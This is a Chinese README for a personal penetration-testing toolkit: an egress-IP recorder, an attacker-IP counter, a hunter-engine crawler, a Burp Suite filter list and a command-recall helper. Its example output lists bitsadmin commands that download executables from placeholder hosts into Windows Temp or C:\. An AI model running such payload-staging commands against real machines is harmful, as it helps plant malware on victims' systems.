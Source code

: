 # 渗透测试小工具集

## getip 

> 记录自己的出口IP

## attacktop

> 攻击者IP次数统计


- 在看golang，顺手就把之前的一些python改成golang了。
- 这工具有个好处就在于统计出现次数，虽然Excel其实可以做得很好，但好多时候我连Excel都难得打开。把这工具添加环境变量，直接一条命令解决。

## hunters

> 网上其实关于hunter的爬虫工具非常多，但不知道为啥总冥冥之中觉得不适合自己，所以造了这个轮子。
>
> 功能大体跟别的相似，并且只支持hunter，原因是fofa有ehole、360可以直接导出。我费那个劲集成在一起干啥，并且这些工具其实人家都做得挺不错。
>
> hunters计划后头写成图形化的，别问为啥，有些时候命令行总觉得缺了点啥（单纯个人觉得）

## WebFilter

> Burpsuite代理的时候可以使用这部分过滤非常多的垃圾网站（包含一部分互联网企业，如果挖掘src的需要自行研判了）以此减轻BurpSuite被动扫描的压力。

## Fs

>  年龄大了？记忆不好？就用fs
>
> 代码很简洁，需要自己简单修改下代码，没有很好做好适配。
>
> 把你常用且又爱忘记的一些命令放到use.log里，然后通过执行Linux命令来检索。
>
> 那么你只需要编译好这个工具以后直接fs admin，就可以检索admin相关的信息出来。

如下所示：

```bash
➜  ~ fs bitsadmin
-+====================================+-
   181  ➜  windows download[+]:bitsadmin /rawreturn /transfer getfile http://x.x.x.x:8888/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
   183  ➜  windows download[+]:bitsadmin /rawreturn /transfer down "http://127.0.0.1:8080/z.exe" c:\\z.exe
   259  ➜  bitsadmin /rawreturn /transfer getfile http://x.x.x.x/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
-+====================================+-
```

安排的明明白白。

懒人必备神器！

